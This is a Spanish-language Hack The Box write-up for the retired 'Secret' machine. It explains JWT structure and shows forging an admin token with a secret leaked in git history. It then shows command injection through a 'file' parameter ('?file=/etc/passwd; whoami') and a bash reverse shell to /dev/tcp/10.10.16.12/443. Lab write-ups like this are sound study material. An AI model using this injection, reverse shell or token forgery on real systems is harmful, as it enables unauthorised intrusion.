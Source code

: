 ![[Pasted image 20250422220257.png]]
Secret es una maquina retirada de Hack The Box que vamos a utilizar para analizar el funcionamiento de una api, modificar el jason web token de autenticación y finalmente explotar un RCE, ejecución remota de comandos, inyectando código en un parámetro.

# Que es un JASON Web Token
Antes de nada, entendamos en que consiste un Jason Web Token.
Un JSON Web Token es un formato para intercambiar información de manera segura entre dos partes. El uso que más se le da es para proporcionar un token de sesion a un usuario autenticado en un servicio.
### Cómo se estructura:
Un JWT tiene 3 partes separadas por puntos `.` de la forma:

*HEADER.PAYLOAD.SIGNATURE*

- Header: Aquí se describe como está firmado el token, el tipo de toquen y el algoritmo utilizdo, por ejemplo
```json
{
	"alg":"HS256",
	"typ":"JWT"
}
```
- Payload: En esta sección se guardan los datos del usuario. Por ejemplo, noombre de usuario, rol, y el tiempo de caducidad del token.
```JSON
{
  "name": "theadmin",
  "role": "admin",
  "iat": 1710000000,
  "exp": 1710003600
}
```

- Signature: Esta sección es una especie de firma, que nos asegura que el contenido del payload no ha sido modificado. Esto se consigue codificando tanto el Header como el Payload mediante alguna funcion hash (definida en el HEADER) y una clave secreta. De esta forma, en el caso de que alguna parte del token sea modificada, cambiará tambien la seccion signature. 
```css
HMACSHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  clave_secreta
)
```

En esta máquina, conseguiremos, debido a una mala gestión de un proyecto en git la clave secreta utilizada en la creación del JWT. De esta forma podemos crear un nuevo JWT y logearnos como el usuario administrador sin conocer la contraseña.

# Máquina Secret

## Escaneo

Lo primero de todo en esta máquina es analizar los puertos abiertos mediante la herramienta nmap:
`` sudo nmap -p- --open -sCV --min-rate 5000 -n -v -Pn -oN nmap/targeted 10.10.11.120
Esto nos reporta la siguiente información:
![[Pasted image 20250421211339.png]]

Tras un analisis de los servicios http de los puertos 80 y 3000 vemos que alojan el mismo servicio.
La página se ve de la siguiente forma: 
![[Pasted image 20250421211410.png]]

Desde la cual, podemos acceder a la api desde el botón de arriba a la derecha "live demo" y podemos descargar el código fuente de la api desde el boton de la parte inferior de descarga.
## Análisis del código
Analizamos el código. Dentro de la carpeta routes tenemos el archivo auth.js en el cual podemos ver:
### Registro de usuario:
El proceso de registrar un nuevo usuario:
![[Pasted image 20250422212112.png]]
Aquí vemos que, al realizar una petición por el método post a la url /register en el cual enviemos en el body de la petición los campos, name, email y password nos creará un usuario.
Más en detalle en el punto 1 indica el método y la url, bajo el punto 1 se ejecutan varias instrucciones que comprueban si la petición contiene el campo body y si existen mail y usuarios ya registrados. Tras esto, en el punto 2 crea un hash de la contraseña y en el punto 3 crea el nuevo usuario asignándole estos campos. Por ultimo, la api nos devuelve una respuesta con el campo user y nuestro usuario.

### Logearnos como un usuario:
![[Pasted image 20250422212535.png]]

En esta sección vemos lo que pasa cuando realizamos una petición por el método post a la url /login.
Vemos que primero se ejecutan una serie de comprobaciones para ver si el mail y la contraseña son validos y en el caso de que lo sea, en el punto 2 nos crea un jwt, un jason web token creado a partid del id, name, email y el token secreto. Este token se nos envía de vuelta con el nombre auth-token.

### Area privada

Una vez logeados, podemos acceder, aportando nuestro auth-token al área privada, estos son los campos /priv y /logs
![[Pasted image 20250422213056.png]]
En /priv, comprueba que el nombre del usuario del jwt proporcionado sea theadmin, si lo es nos devuelve un json confirmandonos que somos el usuario administrador. Si no lo es, nos dice que somos un normal user.
Esta validación de la validez del token se realiza mediante la funcion verifytoken.js:
![[Pasted image 20250422213357.png]]
Y por ultimo tenemos la sección /logs que de la misma manera que /priv si mandamos en las cabeceras un jwt válido y este pertenece a theadmin nos ejecutará el código marcado por el punto 1:
![[Pasted image 20250422213509.png]]
Vemos que, en el caso de ejecutarse el código, no aplica ninguna sanitización del parámetro que nosotros le estamos pasando, lo que nos permitiría ejecutar código en la máquina.
Podríamos realizar pasando el parámetro file por el metodo get, por ejemplo, "?file=/etc/passwd; whoami"

## Enumeración
En el archivo que nos hemos descargado donde hemos encontrado el código fuente de la aplicación vemos un proyecto .git. Consultando los logs de este proyecto con el comando `git log` Vemos:
![[Pasted image 20250421224531.png]]
Y al comprobar los cambios pasándole el id del commit ``git show <id>``
![[Pasted image 20250421224626.png]]
Vemos el token secreto que se usa para generar los JWT.

Veamos el funcionamiento de esta api registrando un usuario y logearnos obteniendo su JWT, así como accediendo a las secciones de administrador:
![[Pasted image 20250421211810.png]]

Una vez hecho esto, tenemos que modificar el JWT para cambiarlo por el JWT del administrador. Lo hacemos desde la web https://jwt.io
![[Pasted image 20250421222308.png]]Modificamos el campo name con el usuario theadmin e introducimos el token secreto en la parte de la firma y obtenemos el auth-token de theadmin:
![[Pasted image 20250421224829.png]]
## Explotación
Como hemos visto en la sección en la que analizabamos el codigo. Podemos pasar mediante el parametro file, un payload para ejecutar código remoto en la maquina de la forma:
![[Pasted image 20250421225050.png]]
Y con esto, nos podemos establecer una reverse shell mediante al comando: ``bash -c "bash -i >& /dev/tcp/10.10.16.12/443 0>&1"
![[Pasted image 20250421225323.png]]
Ganando así acceso a la máquina.